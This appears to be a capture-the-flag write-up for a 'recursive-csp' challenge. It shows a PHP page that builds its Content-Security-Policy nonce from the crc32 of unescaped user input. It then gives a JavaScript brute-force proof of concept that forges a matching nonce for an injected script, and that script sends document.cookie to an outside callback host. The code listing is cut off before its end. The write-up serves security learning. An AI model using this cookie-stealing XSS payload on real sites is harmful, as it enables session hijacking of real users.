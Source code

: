 You can get the source code through `?source`:

```php
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

It can be found that the CSP Header is semi-controllable.

If you need to do XSS, you need to make the nonce of the script tag we injected be the same as the value after crc32 of the entire payload.

Considering the high collision rate of the crc32 algorithm, direct violent collision is sufficient. The PoCs are as follows:

```javascript
import crc from "crc/crc32";

const target = "e8b7be43";
const script = `<script nonce="${target}">location.href='https://mycallback/'+document.cookie</script>`;

const printables =
  "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

for (const a of printables) {
  for (const b of printables) {
    for (const c of printables) {
      for (const d of printables) {
        for (const e of printables) {
          const result = script + a + b + c + d + e;
          const digest = crc(result).toString(16);
          if (digest === target) {
            console.log(result);
            process.exit(0);
          }
        }
      }
    }
  }
```